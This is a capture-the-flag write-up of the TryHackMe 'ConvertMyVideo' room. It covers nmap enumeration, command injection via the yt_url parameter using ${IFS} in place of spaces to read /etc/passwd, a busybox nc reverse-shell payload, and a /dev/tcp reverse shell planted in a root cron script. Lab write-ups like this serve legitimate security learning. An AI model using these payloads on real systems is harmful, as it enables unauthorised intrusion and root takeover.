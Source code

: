 ```yaml
---
title: "ConvertMyVideo"
date: 2025-03-29
draft: false
description: TryHackMe's Good Room
Tags:
- TryHackMe
- Linux
- Medium
---
```


## Enumeration

Lets start with the nmap scan.
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-28 18:22 +0545
Nmap scan report for 10.10.34.159 (10.10.34.159)
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 65:1b:fc:74:10:39:df:dd:d0:2d:f0:53:1c:eb:6d:ec (RSA)
|   256 c4:28:04:a5:c3:b9:6a:95:5a:4d:7a:6e:46:e2:14:db (ECDSA)
|_  256 ba:07:bb:cd:42:4a:f2:93:d1:05:d0:b3:4c:b1:d9:b1 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.76 seconds
```

Hmmm lets see whats in port 80.
![](Pasted%20image%2020250329005821.png)
Hmm as the name suggest,it converts a video or mp4 to mp3.
Hmmm lets check for any special features that we might need.
![](Pasted%20image%2020250329005836.png)
And interesingly,it asks for video id.
Hmmm.

Ohhh after seeing the souce code,i found out that it was asking for youtube video id.
![](Pasted%20image%2020250329005851.png)

Hmmm so as that code,it asks for video id of youtube and make us able to download the mp3 version.
Lets just check by passing one video from youtube.
![](Pasted%20image%2020250329005910.png)
Lets pass this videos id.
Ohh this is long video,lets use shorter one.
![](Pasted%20image%2020250329005922.png)

Lets see how it works.
![](Pasted%20image%2020250329005933.png)
I don't know why but its taking very long.

And few more things from directory busting.
![](Pasted%20image%2020250329005945.png)
And authentication in `/admin`.
![](Pasted%20image%2020250329005957.png)

But we don't have any username or password.
Hmmm.
And there is `/tmp` which is forbidden.
Hmmm interesting.

I captured the requests in burp.
![](Pasted%20image%2020250329010007.png)

Hmm so `yt_url` parameter is going on that video.
But what can we do here?
SSRF,LFI or just huge rabbithole.

Hmm interesting.
![](Pasted%20image%2020250329010019.png)

Hmmm very very interesting.
According to it,there is downloads folder in `/tmp` and there is mp3 file but there is nothing.
![](Pasted%20image%2020250329010029.png)

Hmmm,I am missing something.
So as far I understand it download the mp3 from passed video and save that in `/tmp/downloads` as mp3 file.

![](Pasted%20image%2020250329010040.png)
Hmm.

I guess we can do ssrf.
![](Pasted%20image%2020250329010059.png)

Hmm interesting.
And I am stuck for few hours.
Okay lets just see the part of writeup.
Hmmm so from the result we have got for now reveals that its using something `youtube-dl`.
Lets search for it.
![](Pasted%20image%2020250329010123.png)

## Exploit

Hmm interesting.
And command injection was also possible cause its running a command of `youtube-dl`,so we can use pipe to inject command too.
![](Pasted%20image%2020250329010133.png)

Okay lets continue to get shell or something.
But again it is not compatible.
We can't run long commands and many more.
(we couldn't use spaces i guess)

After some talk with chatGPT,we came up with this.
```Bash
yt_url=|cat${IFS}/etc/passwd;
```

So here that `${IFS}` worked as a space.

We could now read files easily.
![](Pasted%20image%2020250329010144.png)

Great.Now lets try to get shell or complete this rooms's goal.
We can read index.php.
![](Pasted%20image%2020250329010212.png)
![](Pasted%20image%2020250329010224.png)
We got the flag.txt.

As well as there is `.htaccess`file.
![](Pasted%20image%2020250329010243.png)
![](Pasted%20image%2020250329010332.png)


Now we can read that.
![](Pasted%20image%2020250329010344.png)

Lets crack the password hash.
![](Pasted%20image%2020250329010355.png)

## Foothold

And now we can login.
But I was wondering if we can execute command,can i get shell from that.
I tried different things but this one worked.
```bash
busybox${IFS}nc${IFS}ip${IFS}9999${IFS}-e${IFS}sh;
```
![](Pasted%20image%2020250329010411.png)

Lets also do it from `/admin`.
Cause we can also execute command by that cause we can see this.
![](Pasted%20image%2020250329010422.png)

So lets login and execute command.
![](Pasted%20image%2020250329010433.png)

## Privelege Escalation

Now we have got the shell,lets try to escalate our priveleges.
Lets run [linpeas.sh](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS).
Nothing interesting.
Lets also run [pspy](https://github.com/DominicBreuker/pspy/releases).


And we saw something interesting.
![](Pasted%20image%2020250329010455.png)
Hmm so clean.sh is running as root.
Lets check the permission of that script.
![](Pasted%20image%2020250329010506.png)

So we can edit and escalate to root.
I added this line in clean.sh.
```bash
sh -i >& /dev/tcp/ip/9999 0>&1
```

Now lets wait for some time and see if we got a root shell or not.
![](Pasted%20image%2020250329010518.png)

## Done

And done.
![](Pasted%20image%2020250329010530.png)

Again learned lots of things.I hope you are doing awesome.
Take Care!

